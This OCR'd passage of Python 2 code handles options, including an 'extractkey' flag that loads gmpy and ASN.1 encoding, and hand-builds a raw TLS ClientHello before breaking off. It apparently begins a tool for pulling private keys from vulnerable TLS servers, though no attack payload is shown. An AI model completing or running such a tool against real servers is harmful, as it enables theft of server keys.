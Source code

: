 

opts, args = options.parse_args()



if opts.extractkey:

    import base64, gmpy

    from pyasn1.codec.der import encoder

    from pyasn1.type.univ import *



def hex2bin(arr):

    return ''.join('{:02x}'.format(x) for x in arr).decode('hex')



tls_versions = {0x01:'TLSv1.0',0x02:'TLSv1.1',0x03:'TLSv1.2'}



def build_client_hello(tls_ver):

    client_hello = [

# TLS header ( 5 bytes)

0x16,               # Content type (0x16 for handshake)

0x03, tls_ver,         # TLS Version

0x00, 0xdc,         # Length

# Handshake header

0x01,               # Type (0x01 for ClientHello)

0x00, 0x00, 0xd8,   # Length

0x03, tls_ver,         # TLS Version

# Random (32 byte)

0x53, 0x43, 0x5b, 0x90, 0x9d, 0x9b, 0x72, 0x0b,

0xbc, 0x0c, 0xbc, 0x2b, 0x92, 0xa8, 0x48, 0x97,

0xcf, 0xbd, 0x39, 0x04, 0xcc, 0x16, 0x0a, 0x85,

0x03, 0x90, 0x9f, 0x77, 0x04, 0x33, 0xd4, 0xde,

0x00,               # Session ID length

0x00, 0x66,         # Cipher suites length

# Cipher suites (51 suites)
